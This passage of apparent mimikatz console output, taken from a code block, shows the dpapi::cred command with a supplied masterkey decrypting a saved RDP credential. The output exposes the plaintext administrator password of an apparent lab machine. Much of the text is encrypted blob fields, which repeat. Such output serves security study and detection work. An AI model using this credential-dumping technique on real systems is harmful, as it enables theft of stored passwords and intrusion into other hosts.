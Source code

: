 ```console
  pbSign             : f776ff8611228511d6c93bd259caeea4bdf66908fc9a79c6c5841d85bb340f02489972d82ca9124bf6adc48ac6c4341a2012dc070a3d6c9b1c850d29298bd4a0

Decrypting Credential:
 * volatile cache: GUID:{52c3460d-2e8b-4764-957c-57185d4d62b2};KeyHash:b53ebc9462b9cf6284f116b46d3a869091cc398f;Key:available
 * masterkey     : 6beeec39772b606a7ac31f190d3c5cab56e00bd0bef7fe898cc826b12930a402b3163877d3a4d9aadafc2457a31ab2b35522b711c2512156db940ddf350c27f7
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000e0 - 224
  credUnk0       : 00000000 - 0

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 2023-11-24 7:30:06
  unkFlagsOrSize : 00000018 - 24
  Persist        : 00000002 - 2 - local_machine
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:target=TERMSRV/192.168.70.130
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : DESKTOP-TEST\administrator
  CredentialBlob : Admin@123
  Attributes     : 0

mimikatz # dpapi::cred /in:84BD531FDD20A7ED510558FA8768BA20 /masterkey:9458e389d675c03e3134abca123a5f97b0344db9ec7eb77ca65e962ed238d3d9d62ba12e9b227587df8f430762790758c7a1dcf8f0baad587c0301305e088205
**BLOB**
  dwVersion          : 00000001 - 1
  guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
  dwMasterKeyVersion : 00000001 - 1
  guidMasterKey      : {52c3460d-2e8b-4764-957c-57185d4d62b2}
  dwFlags            : 20000000 - 536870912 (system ; )
  dwDescriptionLen   : 00000012 - 18
  szDescription      : 本地凭据数据

  algCrypt           : 00006610 - 26128 (CALG_AES_256)
  dwAlgCryptLen      : 00000100 - 256
  dwSaltLen          : 00000020 - 32
  pbSalt             : cbc61bdb2a8cda88dafb2c090aaf64b6c8edfc5f32a134839f083fa469a95c7f
  dwHmacKeyLen       : 00000000 - 0
  pbHmackKey         :
  algHash            : 0000800e - 32782 (CALG_SHA_512)
  dwAlgHashLen       : 00000200 - 512
  dwHmac2KeyLen      : 00000020 - 32
  pbHmack2Key        : 3c157c9d67b4e62952b3f8b72d841a35cff4d012e46c2c8f91e4e21af8a91e45
  dwDataLen          : 000000f0 - 240
  pbData             : 3e705a067361549290c628f53ae625d3961d29c2eeba9ba24270723dc3021ad8f6bb9e29c474951492d3ae470daf715825b33652607967a9394f0d10b7e35a34c57396d41e9faba5ea89fe969a7ead9e76035dfe3aff6c2b7d6332ea0b2fec5ea2eca2ad1054808dab04d17e4a818f2fbe0aed21b3e217604f2b52e04736c77349f0455c832af7120ffb1eda7dd3b5fc6214f697564e28b2c916d8ab926ffc65571e6475ca7d746e63d4b919519970233359ef2c547f2f3422b9d4199e1f4bcc3f5d034f6d47da39469331fa31adacefaba7dd7aae4b6fb3fea8a873815336cff1c62bb60b2fdbb69647c520a01550f6
  dwSignLen          : 00000040 - 64
  pbSign             : f776ff8611228511d6c93bd259caeea4bdf66908fc9a79c6c5841d85bb340f02489972d82ca9124bf6adc48ac6c4341a2012dc070a3d6c9b1c850d29298bd4a0

Decrypting Credential:
```